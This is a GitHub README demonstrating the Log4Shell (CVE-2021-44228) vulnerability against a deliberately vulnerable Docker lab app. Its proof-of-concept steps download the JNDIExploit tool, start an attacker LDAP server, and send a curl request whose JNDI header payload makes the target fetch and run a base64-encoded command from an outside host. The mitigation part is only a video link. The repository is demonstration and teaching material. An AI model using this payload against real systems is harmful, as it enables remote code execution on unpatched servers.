

# Log4Shell

This repository is for Log4j 2021 (CVE-2021-44228) Vulnerability demonstration and mitigation.

## What is Log4Shell?

The CVE-2021-44228 / Log4Shell vulnerability consists of injecting vulnerable software with a malicious payload, which will ask Log4J to obtain a value from a third-party source, with JNDI and through the LDAP protocol. ... The imported data can be code, which will be executed by Log4J on the system.

## Proof of concept

1. We run a Spring Boot web application vulnerable to CVE-2021-44228 in Docker, nicknamed Log4Shell by @christophetd.
It uses Log4j 2.14.1 (through spring-boot-starter-log4j2 2.6.1) and the JDK 1.8.0_181.
`docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app`


2. We download the JNDI Exploit for Log4Shell from web archive in this case, but you can download it wherever it's available.
`wget https://web.archive.org/web/20211211031401/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip`


3. We obtain the IP address of our machine who's running the docker of the Log4Shell application.
`ifconfig`


4. We unzip the zip with the JNDI Exploit for Log4Shell, so we obtain the JAR and we execute it putting our IP obtained in step 3.
```sh
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```


5. Then, trigger the exploit using:
`curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'`


* We see we have a JNDI connection to our machine, and we can see the code executed by Log4J.


6. To confirm that the code execution was successful, notice that the file /tmp/pwned.txt was created in the container running the vulnerable application.
`docker exec vulnerable-app ls /tmp`


## Mitigation

Video of how to mitigate the Log4Shell vulnerability in Windows and Linux: [MITIGATION](https://youtu.be/dBlfS-wFyqg)
#### Mitigation in Linux (example picture)


## Author

Feryael Justice 2022
